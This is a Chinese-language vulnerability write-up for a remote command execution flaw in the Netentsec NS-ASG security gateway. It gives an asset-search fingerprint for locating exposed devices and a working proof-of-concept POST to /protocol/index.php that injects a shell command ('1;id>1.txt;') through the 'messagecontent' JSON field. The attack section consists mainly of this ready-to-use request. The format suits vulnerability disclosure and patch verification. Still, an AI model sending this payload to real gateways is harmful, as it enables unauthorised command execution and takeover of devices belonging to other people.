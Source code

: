 # 网康 NS-ASG安全网关 index.php 远程命令执行漏洞

## 漏洞描述

网康 NS-ASG安全网关 index.php文件存在远程命令执行漏洞，攻击者通过构造特殊的请求包可以获取服务器权限

## 漏洞影响

<a-checkbox checked>网康 NS-ASG安全网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked> title=="网康 NS-ASG 应用安全网关"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1660545594828-6a216122-73d2-4dd4-91d3-8f91dfd9d903-20230311202627447.png)

存在漏洞的文件为 /protocol/index.php ，通过文件读取可以获取到源码

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1660545902675-0586f8f2-d3c8-4dbe-816e-821013ba8e83-20230311202624155.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1660546891442-cd318722-bd7d-474f-8e6b-17dfb7ded9de-20230311202624159.png)

通过构造请求包进行命令拼接漏洞执行命令

```php
POST /protocol/index.php
  
jsoncontent={"protocolType":"getsysdatetime","messagecontent":"1;id>1.txt;"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1660547107247-ca9ae305-a265-4ad1-978b-a344384d8c9c-20230311202623936.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1660547143958-774e5dad-e5f1-4277-bb12-36653c843adf-20230311202623607.png)